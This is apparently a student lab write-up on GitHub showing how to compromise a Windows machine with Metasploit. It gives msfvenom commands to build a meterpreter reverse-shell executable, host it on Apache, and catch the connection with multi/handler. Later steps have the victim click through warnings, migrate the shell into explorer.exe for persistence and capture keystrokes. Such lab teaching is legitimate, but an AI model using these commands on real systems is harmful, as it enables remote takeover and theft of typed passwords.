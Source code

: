 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/15eadcef-39ec-435a-bf00-3e32c0b82124)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![image](https://github.com/user-attachments/assets/70912c37-f423-42e6-94c4-5178efc14beb)


copy the fun.exe into the apache /var/www/html folder




Start apache server
sudo systemctl apache2 start




Check the status of apache2



Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
![Screenshot 2025-04-07 120027](https://github.com/user-attachments/assets/01b6dfba-8c9e-4e75-8429-ba1226df9d96)


set PAYLOAD windows/meterpreter/reverse_tcp
![image](https://github.com/user-attachments/assets/03316ebe-09b9-4f4b-bf70-3919c351e798)

set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2025-04-07 115431](https://github.com/user-attachments/assets/85abbe80-3f8f-4ce7-aa1c-70a5e2e3387f)


keyscan_dump	Shows the keystrokes captured so far







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
